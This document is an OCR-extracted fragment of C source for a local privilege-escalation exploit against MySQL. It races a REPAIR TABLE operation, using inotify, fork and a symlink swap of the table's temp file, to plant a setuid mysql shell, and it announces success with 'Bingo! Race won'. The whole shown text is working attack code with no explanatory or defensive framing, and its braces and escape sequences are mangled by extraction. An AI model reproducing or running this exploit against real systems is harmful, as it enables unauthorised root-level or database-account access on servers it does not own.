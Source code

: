 ```
mysql_cmd("CREATE TABLE exploit_table (txt varchar(50)) engine = 'MyISAM' data directory '" EXP_PATH "'", 1);
/* random num if needed */
        srand ( time(NULL) );
        randomnum = ( rand() % MAX_DELAY );
        // Fork, to run the query asynchronously and have time to replace table file (MYD) with a symlink
        pid = fork();
        if (pid &lt; 0) `{`
            fprintf(stderr, "Fork failed :(n");
        `}`
        /* Child process - executes REPAIR TABLE  SQL statement */
        if (pid == 0) `{`
            usleep(500);
            unlink(MYSQL_TEMP_FILE);
    mysql_cmd("REPAIR TABLE exploit_table EXTENDED", 1);
            // child stops here
            exit(0);
        `}`
        /* Parent process - aims to replace the temp .tmd table with a symlink before chmod */
        if (pid &gt; 0 ) `{`
            io_notified = 0;
            while (1) `{`
                int processed = 0;
                ret = read(fd, buf, sizeof(buf));
                if (ret &lt; 0) `{`
                    break;
                `}`
                while (processed &lt; ret) `{`
                    event = (struct inotify_event *)(buf + processed);
                    if (event-&gt;mask &amp; IN_CLOSE) `{`
                        if (!strcmp(event-&gt;name, "exploit_table.TMD")) `{`
                            //usleep(randomnum);
    // Set the .MYD permissions to suid+exec before they get copied to the .TMD file 
    unlink(MYSQL_TAB_FILE);
    myd_handle = open(MYSQL_TAB_FILE, O_CREAT, 0777);
    close(myd_handle);
    chmod(MYSQL_TAB_FILE, 04777);
    // Replace the temp .TMD file with a symlink to the target sh binary to get suid+exec
                            unlink(MYSQL_TEMP_FILE);
                            symlink(SUID_SHELL, MYSQL_TEMP_FILE);
                            io_notified=1;
                        `}`
                    `}`
                    processed += sizeof(struct inotify_event);
                `}`
                if (io_notified) `{`
                    break;
                `}`
            `}`
            waitpid(pid, &amp;status, 0);
        `}`
// Check if SUID bit was set at the end of this attempt
        if ( lstat(SUID_SHELL, &amp;st) == 0 ) `{`
    if (st.st_mode &amp; S_ISUID) `{`
is_shell_suid = 1;
    `}`
        `}` 
    `}`
    printf("nn[+] 33[94mBingo! Race won (took %lu tries) !33[0m Check out the 33[94mmysql SUID shell33[0m: nn", cnt);
    system("ls -l " SUID_SHELL);
```